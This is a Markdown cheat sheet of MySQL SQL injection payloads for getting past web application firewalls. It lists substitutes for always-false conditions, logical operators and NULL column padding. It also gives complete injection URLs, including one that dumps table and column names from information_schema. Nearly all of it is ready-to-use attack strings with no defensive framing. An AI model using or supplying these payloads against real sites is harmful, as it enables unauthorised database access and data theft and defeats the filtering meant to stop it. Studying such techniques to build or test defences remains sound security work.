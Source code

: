## The Alternative Ways of using `AND/OR 0` in SQLi (MySQL Specific)

- Traditional Way of using `AND/OR 0`
> ```sql
> and 1=0
> and false
> and 0
> and 50=60
> any number that are not the same will equal to (0, false, null)
> ```

- The Alternative Way of using `0` in `AND/OR 0` (for WAF bypass)
> - Using char() for 0, null, false values
> ```sql
> and char(0)
> and char(false)
> and char(null)
> ```
> - For Example:
> ```sql
> https://www.example.com/index.php?id=1 and char(0) Union Select '1 and char(0) union select 1,2,group_concat(0x3c6c693e,table_name,0x203a3a20,column_name),4,5,6 from information_schema.columns where table_schema=database()',2,3,4,5,6--+-
> ```

> - Any Mathematical/arithmetic or logical problems that are equal to 0
> ```sql
> and 1*0
> and 1-1
> and 0/1
> ```
> - For example:
> ```sql
> https://www.example.com/index.php?id=1 and 1*0 order by 1--
> ```

> - Using mod()
> ```sql
> and mod(29,9)
> ```

> - Using point()
> ```sql
> and point(29,9)
> ```

> - Using nullif()
> ```sql
> nullif(1337, 1337)
> ```

- The Alternative Way of using `AND/OR` in `AND/OR 0` (for WAF bypass)
> ```sql
> %             == Modulo
> &             == Bitwise And
> &&            == Logical And
> |             == Bitwise Or
> ||            == Logical Or
> ```
> - Example:
> ```sql
> https://www.example.com/index.php?id=1 % point(29,9) Order by 10--
> https://www.example.com/index.php?id=1 && point(29,9) Order by 10--
> https://www.example.com/index.php?id=1 ||point(29,9) Order by 11--
> ```

---

## The Alternative Way of using `NULL` in SQLi (MySQL)

- Traditional Way of using `NULL`
> ```sql
> UNION SELECT null, null, null, null
> ```

- The Alternative Way of using `NULL` (WAF Bypass)
> ```sql
> Union Select 0,0,0,0
> Union Select false,false,false,false
> Union Select char(null),char(null),char(null),char(null)
> Union Select char(false),char(false),char(false),char(false)
> Union Select (0*1337-0),(0*1337-0),(0*1337-0),(0*1337-0)
> Union Select 34=35,34=35,34=35,34=35
> ```
